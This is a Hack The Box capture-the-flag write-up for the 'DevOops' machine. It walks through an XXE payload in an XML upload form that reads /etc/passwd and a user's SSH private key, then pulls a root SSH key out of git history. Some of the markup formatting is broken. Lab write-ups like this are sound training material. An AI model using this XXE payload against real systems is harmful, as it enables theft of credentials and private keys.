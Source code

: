 # DevOops

> skills this box involved:
>
> * enumeration  
> * git command use
> * XXE file read
>
>   **USER**
>
>   After carrying out our nmap scan we procede to the web browser to open up the http service and run a dirbuster scan on it
>
>   we can see that it comes back with two results.
>
>   ```text
>   /feed
>   /upload
>   ```
>
>   Navigating to feed shows a static page and therefore nothing interesting however on the upload page there is a upload section where it allows us to upload xml files. We can now start creating a payload to get us code execution. We loads up burpSuite and intercept the request. The website mentions that we must have Author, Subject and Content tags in our xml so of course we add these.
>
>   ```markup
>   <test>
>   <Author>fieldraccoon</Author>
>   <Subject>fieldraccoon</Subject>
>   <Content>fieldraccoon</Content>
>   </test>
>   ```
>
>   this is the data we add to our initial payload and we get a request back form the server.
>
>   ```text
>   PROCESSED BLOGPOST: 
>   Author: fieldraccoon
>   Subject: fieldraccoon
>   Content: fieldraccoon
>   URL for later reference: /uploads/exploit.xml
>   File path: /home/roosa/deploy/src
>   ```
>
>   We see that there is a user called roosa in the file path. This is the user for this box. We now modify our payload to try and get code execution. This is the exploit:
>
>   \`\`\`xml
>
>   &lt;?xml version="1.0"?&gt;
>
>   &lt;!DOCTYPE data \[
>
>   &lt;!ELEMENT data \(ANY\)&gt;
>
>   &lt;!ENTITY file SYSTEM "file:///etc/passwd"&gt;
>
>   \]&gt;

 fieldraccoon &file; fieldraccoon

```text
This reads the /etc/passwd file and confirms that the user roosa is the correct person we are after for this box.
We now try to grab the ssh key for the user by changing `file:///etc/passwd` to `file:///home/roosa/.ssh/id_rsa` This works perfectly and we read the ssh key. we copy this file to our box and ssh as roosa and read the user flag.

# ROOT
as we ssh we find that there is a git directory in /home/roosa/work/blogfeed/.git
we run `git log` to see if we find anything interesting and luckily we do.
```xml
commit 33e87c312c08735a02fa9c796021a4a3023129ad
Author: Roosa Hakkerson <roosa@solita.fi>
Date:   Mon Mar 19 09:33:06 2018 -0400

    reverted accidental commit with proper key
```

This means that the user had an old ssh key reverted\(its the root ssh key\) so we need to try and find a way to get this. We run `git show 33e87c312c08735a02fa9c796021a4a3023129ad` and it shows us the root key, We copy it to our box once again, give it appropriate permissions and ssh as root.

Please drop me some respecet if you found my writeup worth the read :\)

[https://www.hackthebox.eu/home/users/profile/246314](https://www.hackthebox.eu/home/users/profile/246314)

